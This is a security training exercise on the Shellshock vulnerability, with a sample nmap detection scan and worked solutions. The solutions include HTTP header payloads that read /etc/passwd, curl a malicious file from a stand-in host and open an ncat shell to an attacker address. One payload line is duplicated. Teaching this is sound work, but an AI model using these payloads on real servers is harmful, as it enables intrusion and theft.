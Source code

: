 ## Studying Shellshock

In this activity, you will learn how to: 

- Identify if a server is vulnerable to Shellshock.
- Write custom Shellshock payloads.
- Articulate which HTTP headers can serve as command injection points.

### Instructions

- Find a tool that determines if a server is vulnerable to Shellshock.
    
    **Hint**: Research Nmap scripts: <https://nmap.org/nsedoc/>.
    
    > **Solution**: Use `http-shellshock`. See below for example usage.
    > ```bash
    > $ nmap -sV -p- --script http-shellshock 172.16.0.2
    > 
    >   PORT   STATE SERVICE REASON
    >   80/tcp open  http    syn-ack
    >   http-shellshock:
    >     VULNERABLE:
    >     HTTP Shellshock vulnerability
    >       State: VULNERABLE (Exploitable)
    >       IDs:  CVE:CVE-2014-6271
    >         This web application might be affected by the vulnerability known as Shellshock. It seems the server is executing commands injected via malicious HTTP headers.
    > 
    >     |Disclosure date: 2014-09-24
    >     |References:
    >      http://www.openwall.com/lists/oss-security/2014/09/24/10
    >      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
    >      http://seclists.org/oss-sec/2014/q3/685
    >      http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
    > ```

- Write Shellshock payloads that:
    - Read `/etc/passwd`
    - Use `curl` to download a malicious file from `http://evil.site/mal.php`
    - Open an ncat connection to your port 4444
    > **Solution**
    >   - `User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'cd /tmp && curl -O http://evil.site/mal.php'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444'`
    >   - `User-Agent: () { :;}; /bin/bash -c 'ncat 192.168.0.5 4444'`

- Refer to the following Wikipedia article on CGI. Scroll down to **Request specific variables**: <https://en.wikipedia.org/wiki/Common_Gateway_Interface#Example>
    - The examples demonstrated command injection via the `User-Agent` header. Which other headers are vulnerable?
    > **Solution**: Any other header loaded by the environment is vulnerable. This includes all of the standard header variables, such as `HTTP_HOST`, `HTTP_COOKIE`, `HTTP_ACCEPT`, etc., as well as variables like `SCRIPT_PROTOCOL` (via HTTP version injection).
